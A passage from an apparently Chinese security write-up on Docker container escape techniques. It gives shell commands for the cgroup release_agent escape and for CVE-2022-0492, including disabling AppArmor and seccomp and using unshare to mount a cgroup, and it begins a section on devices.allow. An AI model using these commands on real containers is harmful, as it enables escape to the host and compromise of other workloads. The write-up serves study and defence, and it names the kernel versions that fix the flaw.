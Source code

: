 7.添加一个**执行后就退出的进程**到新创建的 cgroup 子系统中来触发 notify\_on\_release

```plain
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

[![](assets/1706845681-013096b95b70c8cbc6485fa6d9b8ea67.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131231800-eb7475d8-c04b-1.png)

### bypass sys\_admin (CVE-2022-0492)

只需要关闭 AppArmor 和 Seccomp 即可成功利用

```plain
docker run --security-opt apparmor=unconfined --security-opt seccomp=unconfined ubuntu bash
```

此时系统不允许将内核相关的虚拟文件系统 mount 到用户目录下

新建个 Namespace 来个 Namespace 嵌套 Namespace，并且重新定义一些资源隔离，让新建的 Namespace 又误以为是一个新的环境即可绕过

使用 unshare 创建一个 namespace 即可

```plain
unshare -UrmC test
mkdir /tmp/cgroup && mount -t cgroup -o rdma cgroup /tmp/cgroup
```

剩下的操作就和之前一样了

该漏洞影响 v2.6.24-rc1 及以上 Linux 内核版本，修复版本为 v5.17-rc3 及以上内核版本，修复补丁限制了 release\_agaent 的权限

实际上这是 linux 内核的洞而非 docker 的洞

## 重写 devices.allow 逃逸

devices 子系统用于配置允许或阻止 cgroup 中的 task 访问某个设备，起到黑白名单的作用

主要包含以下文件：
